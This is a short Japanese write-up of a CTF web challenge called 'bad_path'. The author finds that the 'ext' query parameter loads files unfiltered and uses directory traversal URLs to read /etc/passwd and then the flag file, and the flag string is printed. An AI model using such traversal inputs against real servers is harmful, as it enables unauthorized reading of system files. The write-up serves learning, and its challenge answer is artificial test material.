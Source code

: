 # bad_path:Web:52pts
Hello Worldを何回もすると成長できるらしいので、そのためにサイトを作りました。  
[https://bad-path.xm4s.net/index.php](https://bad-path.xm4s.net/index.php)  
[Dockerfile](Dockerfile)　　　　[index.php](index.php)  

# Solution
URLにアクセスすると、Hello Worldを表示するコードを表示するサイトのようだ。  
HelloWorld  
[site.png](site/site.png)  
各言語を選択すると、URLのクエリパラメータが以下のように変動する。  
`https://bad-path.xm4s.net/index.php?ext=hello.js`  
`https://bad-path.xm4s.net/index.php?ext=hello.py`  
`https://bad-path.xm4s.net/index.php?ext=hello.rs`  
`https://bad-path.xm4s.net/index.php?ext=hello.c`  
ファイルを読み込んでいるようだ。  
ディレクトリトラバーサルの可能性が高い。  
index.phpより、ブラックリストなどがないことが確認できる。  
`https://bad-path.xm4s.net/index.php?ext=../../../../etc/passwd`にアクセスするとファイルが閲覧できた。  
HelloWorld(/etc/passwd)  
[site_passwd.png](site/site_passwd.png)  
Dockerfileは以下のようになっている。  
```Dockerfile
FROM php:8.0-apache

ADD ./index.php /var/www/html/index.php
ADD ./flag.txt /var/www/flag.txt
ADD ./resource/ /var/www/html/resource/
```
/var/www/flag.txtを表示すれば良いようだ。  
`https://bad-path.xm4s.net/index.php?ext=../../../../var/www/flag.txt`にアクセスする。  
flag  
[flag.png](site/flag.png)  
flagが表示された。  

## xm4s{H3110_H3110_CTF3r}